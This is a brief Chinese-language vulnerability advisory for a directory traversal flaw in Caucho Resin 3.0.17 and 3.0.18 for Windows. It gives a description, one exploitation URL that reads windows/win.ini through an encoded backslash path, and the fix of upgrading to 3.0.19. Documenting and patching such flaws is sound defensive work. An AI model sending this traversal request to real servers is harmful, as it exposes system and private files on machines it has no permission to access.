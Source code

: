 ### 一 漏洞描述
Resin是一款由Caucho Technology开发的WEB服务器,可使用在Microsoft Windows操作系统下。

Resin捆绑了自己的单机版Web服务器,默认下运行在8080端口上,其对用户请求的处理上存在漏洞,远程攻击者可以利用此漏洞遍历服务器的目录。

### 二 漏洞利用
http://host:port/C:%5c/windows/win.ini

### 三 漏洞修复
受影响系统:

Caucho Technology Resin v3.0.18 for Windows

Caucho Technology Resin v3.0.17 for Windows

不受影响系统:

Caucho Technology Resin v3.0.19

升级Resin版本至3.0.19及以上
